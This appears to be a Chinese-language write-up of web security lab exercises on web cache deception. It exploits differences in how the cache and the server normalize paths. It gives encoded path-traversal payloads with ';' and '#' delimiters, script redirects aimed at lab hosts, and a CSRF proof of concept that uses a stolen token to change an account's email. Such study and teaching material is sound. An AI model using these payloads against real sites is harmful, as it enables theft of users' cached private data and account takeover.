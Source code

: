 ### 利用缓存服务器的规范化

如果缓存服务器进行路径规范化，而服务器不进行，你可以尝试按照以下结构构造 payload 来利用这种差异：

```
/<动态路径>%2f%2e%2e%2f<静态目录前缀>
/<动态路径>/../<静态目录前缀>
/<动态路径>/../静态文件（如 `robots.txt`、`index.html` 和 `favicon.ico` ）
# 注：缓存规范化而服务器不规范化场景下，如果目标是利用静态文件名匹配缓存的，也能够成功利用此方法。

# 但是反过来服务器规范化而缓存不规范化，这种场景下，如果目标根据静态文件匹配缓存时，利用不成功。
# 因为以上情况下 /static/../user/123 能命中这样的缓存键：/static/*
# 而对静态文件缓存，/robots.txt/../user/123 通常不会命中缓存键：/robots.txt
```

**注意**：在利用缓存服务器的规范化时，对路径遍历序列中的所有字符进行编码。使用编码字符有助于在使用分隔符时避免意外行为，并且由于缓存会处理解码，所以在静态目录前缀后面无需使用未编码的斜杠。

**目标**：让缓存解析为静态路径，服务器解析为动态路径。

### 示例对比

##### 纯路径遍历（失败）

Payload：

```
/profile%2f%2e%2e%2fstatic
或
/profile%2f%2e%2e%2frobots.txt
```

- 缓存：规范化为`/static`（匹配静态规则，缓存空响应）。
- 服务器：视`/profile/../static`为无效路径，返回 404。

##### 带分隔符（成功）

Payload：

```
/profile;%2f%2e%2e%2fstatic
或
/profile;%2f%2e%2e%2frobots.txt
```

- 缓存：解码后规范化为`/static`（触发静态缓存）。
- 服务器：以`;`截断路径为`/profile`，返回用户资料（动态响应）。
- **结果**：缓存存储敏感数据，攻击者访问 Payload 可获取。

### 关键条件

- **缓存**：会规范化路径（处理`..`和编码字符）。
- **服务器**：用分隔符（如`;`）截断路径，不处理后续遍历。
- **静态前缀**：缓存规则匹配前缀（如`/static`）。

### 测试步骤

1. **确认服务器分隔符**：测试 `/user;test` 是否返回 `/user` 内容（判断 `;` 是否为分隔符）。
2. **构造 Payload**：如 `/user;%2f%2e%2e%2fassets`（动态路径 + 分隔符 + 遍历 + 静态前缀）。
3. **验证缓存**：检查该 Payload 的响应是否缓存了服务器的动态数据（如用户资料）。

**总结**：利用缓存与服务器对路径解析的 “一个规范化、一个用分隔符截断” 差异，实现敏感数据缓存窃取。

### 基于静态目录前缀进行缓存的场景

后端可能不存在规范化，因为返回错误，说明 /my-account%2f%2e%2e%2fresources/js/tracking.js 不合法。

![image-20250507185842599](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%AC%BA%E9%AA%97/images/image-20250507185842599.png)

```
payload:
/my-account%2f%2e%2e%2fresources/js/tracking.js
```

上述 payload 出现错误：

1. 缓存规范化后认定为：/resources/js/tracking.js
2. 服务器认定为：/my-account/../resources/js/tracking.js，进行报错。

```
分隔符隔断 payload：
/my-account%23%2f%2e%2e%2fresources/js/tracking.js
```

上述 payload 能正常利用：

1. 缓存规范化后认定为：/resources/js/tracking.js
2. 服务器认定为：/my-account#/../resources/js/tracking.js，井号隔断。

并且能回显正常 /my-account 且存在缓存头 X-Cache 的是可利用的 payload。

![image-20250507192012330](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%AC%BA%E9%AA%97/images/image-20250507192012330.png)

```
<script>document.location="https://0a45004d04207e89807c03f1000800f5.web-security-academy.net/my-account%23%2f%2e%2e%2fresources/js/tracking.js"</script>
```

访问：/resources/js/tracking.js

![image-20250507190752198](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%AC%BA%E9%AA%97/images/image-20250507190752198.png)

### 基于文件进行缓存的场景

![image-20250507192903238](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%AC%BA%E9%AA%97/images/image-20250507192903238.png)

如上图，服务器不会进行规范化，且出现缓存头，说明缓存解析到 /robots.txt

payload:

```
/my-account;%2f%2e%2e%2frobots.txt

# 先获取 token
<script>document.location="https://0a45004d04207e89807c03f1000800f5.web-security-academy.net/my-account;%2f%2e%2e%2frobots.txt"</script>
```

![image-20250507193432079](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/Web%20%E7%BC%93%E5%AD%98%E6%AC%BA%E9%AA%97/images/image-20250507193432079.png)

访问 robots.txt 获取用户页面信息后，从页面表单提取 csrf token，进行 csrf

```
# 然后生成 csrf poc，并填充截取的 token 
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a45004d04207e89807c03f1000800f5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener&#64;pwned&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="nhEEHtXaX79vovgiMIN3LctjHlKCUDqc" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

